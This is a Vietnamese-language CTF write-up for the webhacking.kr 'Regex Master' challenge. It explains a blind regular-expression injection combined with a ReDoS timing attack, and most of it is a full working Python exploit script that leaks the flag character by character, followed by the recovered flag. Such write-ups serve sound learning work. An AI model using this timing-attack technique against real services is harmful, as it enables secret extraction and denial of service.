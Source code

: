 ```yaml
---
title: Regex Master - webhacking.kr
description: From webhacking.kr
author: to^
date: 2022-04-02 2:39:00 +0700
categories: [WebSec, CTF, webhacking.kr]
tags: [timing attack]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: blind_re_inject/webhackingkr_logo.png
 alt: webhackingkr logo
 width: 1000
 height: 400
---
```


## _Link challenge_
<http://regexmaster.webhacking.kr>

## _Source code_
![source_code](blind_re_inject/source_code.png)
_source code_

## _Phân tích_
Ở bài này source code rất đơn giản, chỉ kiểm tra xem biến flag có chứa chuỗi `parttern` (nhận từ GET request) hay không mà không hề xuất ra kết quả hay output nào khác.
Sau một hồi suy nghĩ thì mình quyết định thử khai thác bằng `blind regex injection` + `timing attack`
Để hiểu chi tiết hơn về kĩ thuật này các bạn có thể xem [đây](https://diary.shift-js.info/blind-regular-expression-injection/).

## _Khai thác_
```py
import requests
import sys
import time
import random
import string
import re

# constants
THRESHOLD = 1
url = 'http://regexmaster.webhacking.kr/?pattern='
# predicates


def length_is(n):
    return ".{" + str(n) + "}$"


def nth_char_is(n, c):
    if c == '/':
        return ".{" + str(n-1) + "}" + '\/' + ".*$"
    if c == '\\':
        return ".{" + str(n-1) + "}" + '\\\\' + ".*$"
    return ".{" + str(n-1) + "}" + re.escape(c) + ".*$"

# utilities


def redos_if(regexp, salt):
    return "^(?={})(((((.*)*)*)*)*)*{}".format(regexp, salt)


def get_request_duration(payload):
    # print(payload)
    try:
        r = requests.get(url+payload)
        duration = r.elapsed.total_seconds()
    except:
        duration = -1
        exit(1)
    # print(duration)
    return duration


def prop_holds(prop, salt):
    return get_request_duration(redos_if(prop, salt)) > THRESHOLD


def generate_salt():
    return ''.join([random.choice(string.ascii_letters) for i in range(10)])


# exploit
if __name__ == '__main__':
    # generating salt
    salt = generate_salt()
    while not prop_holds('.*', salt):
        salt = generate_salt()
    print("[+] salt: {}".format(salt))

    # leak length
    upper_bound = 100
    secret_length = 0
    for i in range(0, upper_bound):
        if prop_holds(length_is(i), salt):
            secret_length = i
            break
    print("[+] length: {}".format(secret_length))

    flag = "FLAG{"
    for i in range(5, secret_length):
        stop = 0
        for c in range(32, 128):
            if prop_holds(nth_char_is(i+1, chr(c)), salt):
                flag += chr(c)
                print("[*] {}".format(flag))
                stop = 1
                break
    print("[+] Flag: {}".format(flag))  
```

> FLAG{im_r/e/g/e/x_master//_//}
{: .prompt-info  }
## _Tham khảo_
<https://diary.shift-js.info/blind-regular-expression-injection>
